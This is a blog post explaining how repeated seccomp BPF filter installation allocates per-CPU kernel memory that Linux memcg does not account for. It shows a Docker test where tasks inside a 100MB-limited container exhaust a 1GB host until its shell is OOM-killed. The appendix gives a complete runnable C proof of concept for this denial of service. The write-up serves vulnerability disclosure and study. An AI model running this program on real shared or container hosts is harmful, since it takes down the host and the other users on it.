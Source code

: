 ```yaml
---
title: Break Memcg Memory Limitation
date: 2020-01-11 15:24:12
tags:
- memcg
- Linux
- cgroup
- docker
---
```


# Environment
- linux kernel
  - 5.3.6
  - 4.19.67 (Debian)
- docker 18.09.1
- Debian 10.1

# Kmem Accounting
In Linux kernel, kernel memory allocations (`kmalloc`, `__alloc_pages_nodemask`, etc.) will be accounted by memcg if `__GFP_ACCOUNT` flag is set.

# Per-CPU Allocations
In Linux kernel, per-CPU memory is allocated by [`pcpu_alloc`](https://elixir.bootlin.com/linux/v5.3.6/source/mm/percpu.c#L1586). `pcpu_alloc` creates its own memory pool, which is not accounted by memcg.

# `seccomp` syscall
We can use `seccomp` syscall to set Berkerly Packet Filter (BPF). While setting BPF, kernel will [allocate per-CPU memory](https://elixir.bootlin.com/linux/v5.3.6/source/kernel/bpf/core.c#L114) and will [allocate memory without `__GFP_ACCOUNT`](https://elixir.bootlin.com/linux/v5.3.6/source/kernel/bpf/core.c#L77). By setting BPF for many times, we can allocate much memory without memcg accounting.

# Test on Docker
## Host
Host machine is Debian 10 on QEMU, with 1GB memory.

## run a docker container with memory limitations
``` shell
docker run --name debian --memory 100000000 --kernel-memory 50000000 debian:slim /bin/bash
```
Run a Debian container with 100MB memory limitation and 50MB kernel memory limitation.

## write program to set BPF
``` c
while (1)
  {
    /* ... */
    prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &bpf);
    /* ... */
  }
```
I find that a task can allocate up to tens of MBs, and memcg only accounts several hundreds of KBs of them.
![one task mem](/img/one_task_mem.png)

## run enough tasks to allocate almost all memory
I run 64 tasks here and allocate almost all memory (total memory is 1GB).
![alloc mem top](/img/alloc_mem_top.png)

## result
OOM killer try to kill tasks, some of my allocating tasks are killed.
![alloc task killed](/img/alloc_task_killed.png)
Finally the host shell is killed because of out of memory.
![host shell killed](/img/host_shell_killed.png)

# Appendix
## user-space program that allocates per-CPU memory
``` c
#include <unistd.h>
#include <sys/prctl.h>
#include <linux/prctl.h>
#include <linux/seccomp.h>
#include <linux/filter.h>
#include <linux/audit.h>
#include <linux/signal.h>
#include <sys/ptrace.h>
#include <stdio.h>
#include <errno.h>

int main()
{
  struct sock_filter insns[] =
    {
     {
      .code = 0x6,
      .jt = 0,
      .jf = 0,
      .k = SECCOMP_RET_ALLOW
     }
    };
  struct sock_fprog bpf =
  {
   .len = 1,
   .filter = insns
  };
  int ret;
  
  ret = prctl(PR_SET_NO_NEW_PRIVS, 1, NULL, 0, 0);
  if (ret)
    {
      printf("error1 %d\n", errno);
      return 1;
    }
  int count = 0;
  while (1)
    {
      ret = prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &bpf);
      if (ret)
        {
          sleep(1);
          printf("error %d\n", errno);
        }
      else
        {
          count++;
          printf("ok %d\n", count);
        }
    }
  return 0;
}

```
